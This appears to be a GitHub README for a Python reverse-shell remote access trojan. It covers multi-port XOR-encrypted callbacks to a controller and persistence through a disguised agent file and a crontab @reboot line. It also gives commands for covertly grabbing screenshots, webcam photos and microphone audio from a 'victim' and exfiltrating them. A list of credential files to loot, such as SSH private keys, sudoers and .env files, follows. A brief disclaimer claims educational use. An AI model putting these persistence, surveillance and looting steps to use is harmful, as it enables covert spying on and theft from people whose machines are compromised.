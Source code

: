 
# 🐍 Advanced Reverse Shell RAT (Multi-port, XOR, Recon, Persistence)

## 📘 Learning Path Progression

1. 🛠️ Socket Shell Basics
2. 🔁 Bind & Reverse Hybrid Shells
3. 🔐 XOR Encrypted Communication
4. 📥 File Download (`get`)
5. 📜 Multiline Response Handling
6. 🎯 Recon Command (System Looting)
7. 🔁 Crontab Persistence
8. 👻 Process Renaming
9. 🔥 Multi-Port Reverse Shell
10. 💣 Self-Destruct Feature

---

## 🚀 Features

- Reverse shell using XOR encryption over multiple ports (443, 53, 8080)
- Executes shell commands with multi-line response support
- Supports `get <file>` for file exfiltration
- `recon`: automated data collection on victim
- `selfdestruct`: safely removes agent
- Optional: Process title masking (e.g., `dbus-daemon`)
- Persistence using `crontab`

---

## 🔄 Usage Instructions

### On Kali (Controller)
```bash
python3 listener_xor.py
```

> Listens on ports 443, 53, and 8080 for incoming reverse shells.

### On Ubuntu (Victim)

Edit `agent_reverse.py` and update:
```python
CONTROLLER_IP = "192.168.56.10"  # your Kali IP
```

Run in background:
```bash
pkill -f agent.py
nohup python3 ~/.config/update-check.py &>/dev/null &
```

Enable persistence:
```bash
(crontab -l 2>/dev/null; echo "@reboot nohup python3 ~/.config/update-check.py &") | crontab -
```

---

## 🎮 Cool Commands to Run

### 📷 Screenshot
```bash
scrot /tmp/screen.png && sleep 1 && get /tmp/screen.png
```

### 📸 Webcam
```bash
fswebcam /tmp/webcam.jpg && sleep 1 && get /tmp/webcam.jpg
```

### 🎤 Microphone
```bash
arecord -f cd -d 10 /tmp/audio.wav && get /tmp/audio.wav
```

### 🧠 Recon Command
```bash
recon
```

### 💣 Self-Destruct
```bash
selfdestruct
```

Deletes the agent script from disk.

---

## 📂 Valuable Files to Loot

- `/etc/passwd`, `/etc/group`, `/etc/sudoers`
- `~/.ssh/id_rsa`, `~/.bash_history`
- `/etc/NetworkManager/system-connections/*`
- `.env`, `config.json`, `.git`, browser profiles

---

## 🛡️ Security Score

| Category        | Score | Notes |
|-----------------|-------|-------|
| Stealth         | 7/10  | XOR, multi-port, process rename |
| Resilience      | 8/10  | Crontab + port fallback |
| Detection Risk  | 5/10  | Reverse shell visible to firewalls |
| Educational Use | 🔟     | Ideal for real-world red team skills |

---

## ⚠️ Legal Disclaimer

This tool is for educational and authorized use only.
**Do not deploy** on systems you do not own or have written permission to test.

---

Built to learn. Built to bypass. Built to improve. 🧙🏽‍♂️
